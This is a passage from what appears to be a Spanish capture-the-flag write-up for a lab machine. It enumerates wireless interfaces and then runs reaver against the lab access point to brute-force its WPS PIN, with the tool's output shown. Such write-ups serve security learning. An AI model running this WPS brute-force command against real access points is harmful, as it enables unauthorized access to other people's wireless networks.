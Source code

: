 El comando iw dev en Linux se utiliza para mostrar las interfaces inalámbricas disponibles en tu sistema y la información asociada a ellas. Entre la información recopilada, nos encontramos que hay una interfaz que actúa como AP (wlan0) y otra como cliente (wlan1)

```bash
netadmin@wifinetic:~$ iw dev
phy#2
	Interface mon0
		ifindex 7
		wdev 0x200000002
		addr 02:00:00:00:02:00
		type monitor
		txpower 20.00 dBm
	Interface wlan2
		ifindex 5
		wdev 0x200000001
		addr 02:00:00:00:02:00
		type managed
		txpower 20.00 dBm
phy#1
	Unnamed/non-netdev interface
		wdev 0x100000018
		addr 42:00:00:00:01:00
		type P2P-device
		txpower 20.00 dBm
	Interface wlan1
		ifindex 4
		wdev 0x100000001
		addr 02:00:00:00:01:00
		ssid OpenWrt
		type managed
		channel 1 (2412 MHz), width: 20 MHz (no HT), center1: 2412 MHz
		txpower 20.00 dBm
phy#0
	Interface wlan0
		ifindex 3
		wdev 0x1
		addr 02:00:00:00:00:00
		ssid OpenWrt
		type AP
		channel 1 (2412 MHz), width: 20 MHz (no HT), center1: 2412 MHz
		txpower 20.00 dBm
```

A través de `reaver` realizaremos un ataque de fuerza bruta sobre el AP para encontrar la contraseña WPA/WPA2 del AP. Verificamos que hemos logrado obtener la contraseña del AP.

```bash
netadmin@wifinetic:~$ reaver -i mon0 -b 02:00:00:00:00:00 -vv

Reaver v1.6.5 WiFi Protected Setup Attack Tool
Copyright (c) 2011, Tactical Network Solutions, Craig Heffner <cheffner@tacnetsol.com>

[+] Waiting for beacon from 02:00:00:00:00:00
[+] Switching mon0 to channel 1
[+] Received beacon from 02:00:00:00:00:00
...[snip]...
[+] Trying pin "12345670"
[+] Sending authentication request
[+] Sending association request
[+] Associated with 02:00:00:00:00:00 (ESSID: OpenWrt)
[+] Sending EAPOL START request
[+] Received identity request
[+] Sending identity response
[+] Received M1 message
```